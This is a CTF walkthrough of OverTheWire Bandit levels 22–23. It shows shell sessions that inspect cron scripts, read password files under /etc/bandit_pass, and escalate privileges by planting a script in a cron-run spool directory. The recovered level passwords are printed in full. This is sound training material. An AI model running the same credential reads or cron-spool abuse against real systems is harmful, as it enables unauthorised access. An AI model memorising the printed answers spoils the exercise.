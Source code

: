 ## Level 22

```
bandit22@bandit:~$ ls /etc/cron.d
cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  popularity-contest
bandit22@bandit:~$ cat /etc/cron.d/cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
bandit22@bandit:~$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
bandit22@bandit:~$ /usr/bin/cronjob_bandit23.sh
bandit22@bandit:~$ echo "I am user bandit23" | md5sum | cut -d ' ' -f 1
8ca319486bfbbc3663ea0fbe81326349
bandit22@bandit:~$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

## Level 23

```bsh
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done
```
So we need to write a bash script, put it in /var/spool/$myname and have it return us the password

```sh
!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/init723/pass24
```
Then set permissions and move to directory
```
bandit23@bandit:/tmp/init723$ chmod a+w .
bandit23@bandit:/tmp/init723$ chmod a+x initscript.sh
bandit23@bandit:/tmp/init723$ cp initscript.sh /var/spool/bandit24/
bandit23@bandit:/tmp/init723$ ls
initscript.sh  pass24
bandit23@bandit:/tmp/init723$ cat pass24
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

